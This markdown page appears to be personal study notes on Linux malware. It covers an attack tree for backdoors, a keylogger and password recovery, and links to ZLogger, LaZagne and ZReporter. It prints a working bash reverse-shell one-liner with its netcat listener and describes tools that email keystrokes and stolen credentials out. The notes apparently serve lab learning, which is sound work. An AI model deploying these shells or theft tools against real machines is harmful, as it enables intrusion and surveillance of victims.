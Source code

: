 # Linux malware

## Attack tree

```text
1 Backdoor
    1.1 Generate
        1.1.1 Metasploit meterpreter (OR)
        1.1.2 With TheFatRat (Trodebi) (OR)
        1.1.2 Powershell stager (usestager multi/bash) 
    1.2 Download to target machine
    1.3 Test it works
2 Keylogger
    2.1 Install and use Zlogger command
    2.2 Download to target machine
    2.3 Test it works (make executable, run in terminal, do some keystrokes, check mail)
3 Password recovery tool
    3.1 Download repo and compile latest release OR use the standalone release for Linux (version 1.0)
    3.2 Download to target machine
    3.3 Test it works (make executable, run in terminal)
```

## Notes

### Bash backdoor

Bash is a command language used in Unix & Unix-like operating systems:
* Linux
* Mac OS X
* IOS
* Android

Bash can be used to send a reverse shell to a remote computer. Simplest form:

On the target machine:
```text
$ bash -i >& /dev/tcp/192.168.122.108/8080 0>&1
```

On the kali machine:
```text
# nc -vv -l -p 8080
```

### ZLogger

Zlogger is a remote keylogger for Linux:
* Runs in the background of target system.
* Reports every key pressed on the target machine to email.
* Starts with system boot.
* Does not require root.

Remove it:

```text
$ cd .config/autostart
$ rm xinput.desktop
```
After restarting it is not running.

## LazaGne

LazaGNe is a post exploitation tool to retrieve saved passwords on local computer:
* Recovers saved passwords from lots of programs.
* Recovers passwords from memory.
* Works with Windows and Linux.
* Displays result on screen or store it on local machine.

## Execute & Report

Execute and Report is a simple payload:
* Executes a command.
* Waits for result and sends it by email.
* Execute linux commands and get info from computer.
* Download a file, execute it and report its output.
* ...

## Tools

* [Zlogger](https://github.com/z00z/ZLogger)
* [LazaGNe](https://github.com/AlessandroZ/LaZagne)
* [ZReporter](https://github.com/z00z/ZReporter)

## Resources

* [Empire wiki](https://bc-security.gitbook.io/empire-wiki/)
